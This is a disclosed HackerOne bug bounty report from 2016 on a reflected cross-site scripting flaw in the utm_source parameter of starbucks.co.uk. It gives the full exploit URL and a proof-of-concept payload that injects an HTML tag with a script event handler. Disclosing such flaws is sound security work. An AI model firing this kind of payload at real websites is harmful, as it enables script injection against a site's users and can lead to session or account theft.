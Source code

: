 # www.starbucks.co.uk Reflected XSS via utm_source parameter

## Report Details
- **Report ID**: 140616
- **URL**: https://hackerone.com/reports/140616
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-05-24T02:11:53.397Z
- **Disclosed**: 2016-12-19T22:48:31.074Z

## Reporter
- **Username**: meals
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
https://www.starbucks.co.uk/shop/card/egift?utm_campaign=egift&utm_content=WinterFY16&utm_medium=GPH&utm_source=SBUXcouk"%3e%3cb%20onbeforescriptexecute=prompt(document.domain)%3e

Payload: "%3e%3cb%20onbeforescriptexecute=prompt(document.domain)%3e

## Attachments
- Screen_Shot_2016-05-23_at_10.11.02_PM.png
